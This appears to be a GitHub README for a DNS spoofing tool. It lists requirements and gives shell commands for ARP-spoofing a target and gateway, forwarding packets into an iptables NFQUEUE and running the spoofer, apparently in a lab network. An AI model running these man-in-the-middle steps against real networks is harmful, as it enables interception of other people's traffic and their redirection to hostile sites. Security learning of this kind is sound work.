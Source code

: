 # DNS Spoofer

## Requirements

* Python 2 or 3
* [NetFilterQueue](https://github.com/oremanj/python-netfilterqueue#installation)
* An iptables `NFQUEUE` (`FORWARD` chain if comes from another device, `OUTPUT` and `INPUT` chain when testing on hacking machine)
* Scapy

```shell
$ sudo iptables -I FORWARD -j NFQUEUE --queue-num 0
```

## Usage

### Example use

Go in the middle:

```shell
$ sudo sysctl -w net.ipv4.ip_forward=1
$ sudo python3 arp_spoofer.py -t 192.168.122.75 -s 192.168.122.1
```

Set up queue and intercept:

```shell
$ sudo iptables -I FORWARD -j NFQUEUE --queue-num 0
$ sudo python3 dns_spoofer.py                      
```

View queue with

```shell
$ sudo cat /proc/net/netfilter/nfnetlink_queue
```

Afterwards, do not forget to remove the created iptables `NFQUEUE`:

```shell
$ sudo iptables --flush
```